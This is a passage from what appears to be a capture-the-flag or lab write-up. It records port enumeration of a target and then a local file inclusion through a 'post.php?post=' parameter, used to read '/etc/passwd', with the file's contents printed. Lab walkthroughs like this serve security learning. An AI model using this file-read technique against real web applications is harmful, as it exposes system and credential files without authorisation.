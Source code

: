 ```yaml
---
sticker: emoji//1f989
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 21   | FTP     |
| 22   | SSH     |
| 80   | HTTP    |



# RECONNAISSANCE
---

Let's visit the website:

![](../images/Pasted%20image%2020250326151154.png)

We got a simple website that has some posts, if we click on any of them, we can see this:

![](../images/Pasted%20image%2020250326151222.png)

We can see a url in the form of:

```
post.php?post=
```

This may be vulnerable to LFI, due to the way the `post.php` file display the post, let's try reading `/etc/passwd`:

![](../images/Pasted%20image%2020250326151326.png)

No need to even do path traversal, let's submit the request to our proxy to handle this thing easily, reading `/etc/passwd` gives us this:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
```